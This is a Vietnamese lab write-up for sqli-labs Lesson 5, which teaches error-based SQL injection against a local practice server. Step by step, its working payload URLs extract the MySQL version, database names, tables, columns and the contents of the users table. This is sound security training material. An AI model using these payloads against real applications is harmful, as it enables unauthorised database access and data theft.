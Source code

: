 # Một số việc làm với được lesson-5.md
Sau khi đăng nhập vào lesson5

![](../images/lesson5/screen.png)

Đề bài có yêu cầu nhập id 
```
 Please input the ID as parameter with numeric value 
```
Kết quả sau khi nhập giá trị ID 

![](../images/lesson5/screen_1.png)

- Thêm một vài ký tự đăc biệt để nó show ra lỗi và giúp ta biết được là DB loại nào 

![](../images/lesson5/screen_2.png)

- Hiển thị version của DB 
```
192.168.80.225/sqli-labs/Less-5/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson5/screen_8.png)

## Chúng ta sẽ sử dụng error based để có thể tìm hiểu về DB của nó 
1. Hiển thị danh sách DB 
```
192.168.80.225/sqli-labs/Less-5/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select SCHEMA_NAME from information_schema.schemata limit 0,1 ), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson5/screen_3.png)

- Do nó chỉ hiện thị một dòng nên chúng ta sẽ phải sử dần limit để có thể hiển thị được tất cả các DB đã có.
- Tên của DB là `information_schema` còn `:1` Chỉ là ký tự được thêm vào để có thể hiển thị ra lỗi 

2. Hiển thị table của một DB nào đó đã biết tên 
- Ví dụ Chúng ta sẽ show table trong DB security 
```
192.168.80.225/sqli-labs/Less-5/?id=1'%20 and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='security' limit 0,1), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson5/screen_4.png)

- Chúng ta sẽ sửa limit để có thể thấy từng table trong DB. Example: ta thay `limit 0,1` thành `limit 1,1` 

![](../images/lesson5/screen_5.png)

- Chúng ta có thể  hiển thị tên bảng của DB khác bằng cách đổi tên DB. Ví dụ ta đổi tên DB security thành mysql 
```
192.168.80.225/sqli-labs/Less-5/?id=1'%20 and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='mysql' limit 0,1), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson5/screen_6.png)

4. Hiển thị tên cột trong một bảng 
```
192.168.80.225/sqli-labs/Less-5/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT COLUMN_NAME FROM information_schema.columns WHERE table_schema='security' AND table_name='users' limit 0,1), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson5/screen_7.png)

- Tương tự chúng ta phải tăng limit lên dần để có thể biết được hết tất cả thông tin của bảng mà ta đã chọn 
- Nếu muốn tìm đến các bảng khác ta sẽ thay tên của các bảng 

5. Show dữ liệu trong một bảng 
- Ví dụ ta show dữ liệu của cột `id` trong bảng `users` 
```
192.168.80.225/sqli-labs/Less-5/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select id from security.users limit 0,1), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson5/screen_9.png)

tương tự ta muốn biết dữ liệu trong bảng nào thì ta sẽ thay câu lệnh truy vấn và tăng dần limit để có thể biết được hết 

